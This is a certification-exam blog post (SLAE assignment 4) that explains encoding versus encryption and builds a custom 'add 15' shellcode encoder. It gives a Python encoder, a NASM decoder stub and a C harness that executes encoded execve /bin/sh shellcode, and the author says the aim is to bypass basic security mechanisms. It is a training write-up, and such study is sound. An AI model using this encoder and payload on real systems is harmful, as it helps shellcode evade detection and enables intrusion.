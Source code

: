 ```yaml
---
layout: post
title: SLAE Exam 4 Custom Encoder
category: Security
tags: [slae, shell, assembly, programming]
---
```


It's a good day to be back in the lab. I'm stuck chugging some solid H20 today while taking a look at writing custom encoders for our shellcode. Today we'll look at the difference in encoding vs encrypting, and how to make a simple custom encoder to bypass basic security mechanisms.


## Problem Statement

* Create a custom encoding scheme like the "Insertion Encoder" shown to us
* Write PoC using execve-stack as the shellcode to encoe with your schema and execute

Let's get right into it.

## Encoding vs. Encrypting

Before we start I just want to make clear the differences between encoding something, and encrypting something. When you encode data, you transform it into another format using a scheme that is publicly available and that allows anyone to decode the information. With encryption, you modify data in such a way that only individuals with known values can reverse the transformation.

An example of encoding would be base64 encoding. Anyone can look up how to base64 decode something to access the originally encoded data. An example of encryption would be a rotational cipher, in which each character of a piece of data is rotated X number of times. This means that whoever is decrypting the data MUST know the value of X in order to retrieve the original data.

## Insertion Encoder

During the SLAE, an example was given called the insertion encoder. This encoder would take a set of hex data, and insert the value `0xAA` after each hex value in the given data. See the below transformation:

`0x12 0xAB 0xAC 0x01`

`0x12 0xAA 0xAB 0xAA 0xAC 0xAA 0x01 0xAA`

It's a pretty simple concept. And to get the original data back out, one would just traverse the data using 2 pointers, and moving the characters back to their original place!


## Custom Encoder

For this assignment we had to come up with a custom encoding scheme. I like the number 15, so I will publicly declare that the _CoffeNCoding_ scheme will take each data element and add the value of 15 to it in order to get an encoded version of the data.

You may be confused as to why this isn't exactly the same as the rotational cipher (which is an encryption algorithm) that I mentioned before. The main difference here is that I am publicly declaring this as an encoding scheme, in which everyone knows the value of which to add. If the value 15 was a secret, then this would be considered an encryption scheme.


#### Building an Encoder

We'll use python to build a quick encoder for our execve-stack shellcode.

**_CoffeeNcoder.py_**

```python
#!/usr/bin/python

# Python Coffee Encoder

COFFEE=15
COFFEE_HEX='0f'

# execve-stack /bin/sh
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""
stack = []
new_row = []
row = 0

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    encoded += '\\x'
    encoded += '%02x' % (x+15)

    encoded2 += '0x'
    encoded2 += '%02x,' % (x+15)

    # Print these in sets of 4 so we can easily paste to push onto stack
    new_row.insert(0, '%02x' % (x+COFFEE))
    if len(new_row) == 4:
        stack.insert(0,new_row)
        new_row = []
        row += 1

if len(new_row):
    for i in range(0, 4-len(new_row)):
        new_row.insert(0, '%02x' % COFFEE)
    stack.insert(0, new_row)
    row += 1

# We need to pad the last row with null (coffee_hex) values
if not stack[0][0] == COFFEE_HEX:
    new_row = []
    for i in range(0, 4):
        new_row.insert(0, '%02x' % COFFEE)
    stack.insert(0, new_row)
    row += 1

print('{}\n'.format(encoded))

print('{}\n'.format(encoded2))

for i in range(0, row):
    print('0x{}'.format(''.join(stack[i])))

print '\nLen: %d' % len(bytearray(shellcode))
```

You'll notice that we pad our result with the `0x0F` value. This is so that our decoder will know when to stop decoding. When our decoder generates a value of 0 (`0x0F` - `0x0F`), it will know it has reached the end of the decoding process.

Giving it a test run, we see that our execve-stack shellcode transforms as follows:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

`\x40\xcf\x5f\x77\x3e\x3e\x82\x77\x77\x3e\x71\x78\x7d\x98\xf2\x5f\x98\xf1\x62\x98\xf0\xbf\x1a\xdc\x8f`


#### Building the Decoder

Now that we have our encoded shellcode, we need to be able to decode it and pass execution to it. The basic algorithm for this will be to start at the beginning, and subtract 15 from each element until we hit a value that generates 0. Once this happens, pass the execution to the point where we started decoding. Let's see what that looks like in assembly.

**_assignment4.nasm_**

```
; Filename: assignment4.nasm
; Author:  Adam Brown
; Website:  https://coffeegist.com
;
;
; Purpose: Create a custom encoder/decoder for the SLAE exam

global _start

section .text
_start:

  ; Push shellcode onto stack in reverse order
  push 0x0f0f0f8f
  push 0xdc1abff0
  push 0x9862f198
  push 0x5ff2987d
  push 0x78713e77
  push 0x77823e3e
  push 0x775fcf40

  mov esi, esp ; Get address of first byte of shellcode
  mov eax, esi ; Save it

  jmp short decode ; Start decoding from first byte

decoder_loop:
  inc esi

decode:
  sub byte [esi], 0xf
  jnz short decoder_loop

  jmp eax  ; Jump to first byte of decoded shellcode
```


Here we see that we push our shellcode onto the stack, and then save a pointer to the top of the stack in eax. Now, we proceed to move through our shellcode, subtracting `0xF` until the zero flag is set. When this happens, we jump to eax, which is pointing to the first byte of our shellcode.


#### Execution

All that's left is to generate our full shellcode with the decoder stub, and throw it in our C program for a simulated code execution exploit.


**_shellcode.c_**

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x68\x8f\x0f\x0f\x0f\x68\xf0\xbf\x1a\xdc\x68\x98\xf1\x62\x98\x68\x7d\x98\xf2
\x5f\x68\x77\x3e\x71\x78\x68\x3e\x3e\x82\x77\x68\x40\xcf\x5f\x77\x89\xe6\x89
\xf0\xeb\x01\x46\x80\x2e\x0f\x75\xfa\xff\xe0";

void main() {
  printf("Shellcode Length:  %d\n", strlen(code));

  int (*ret)() = (int(*)())code;

  ret();
}
```

## Wrapping Up

This was a fairly simple assignment, but one that could be leveraged to beat certain systems in a pinch! This technique could be expounded on quite a bit, but I'll leave that as an exercise to you! Have fun, grind responsibly, and happy hacking!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
